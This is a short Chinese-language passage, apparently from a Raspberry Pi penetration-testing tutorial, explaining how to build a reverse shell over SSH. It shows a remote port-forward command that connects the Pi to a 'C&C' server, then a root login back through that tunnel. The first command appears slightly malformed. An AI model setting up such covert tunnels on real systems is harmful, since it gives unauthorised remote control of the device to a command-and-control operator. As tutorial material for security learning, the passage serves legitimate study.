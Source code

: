 ![Reverse shell through SSH](img/Image00036.jpg)

要使用 Raspberry Pi 上的其他端口重试，请使用以下命令：

```
ssh -fN -R 8443:localhost:mike@10.5.8.69

```

系统会提示我们输入该 C&C 服务器的本地帐户密码，一旦我们输入密码，进程就进入后台，我们再次收到命令提示。

在 C&C 中央服务器上，我们将打开一个命令行终端并输入以下命令：

```
ssh root@localhost -p 8443

```

现在提示我们输入根密码。我们可以从上一个命令行示例中看到，命令提示符已更改。我们现在在远程服务器上，完全控制 Raspberry Pi，如以下屏幕截图所示：
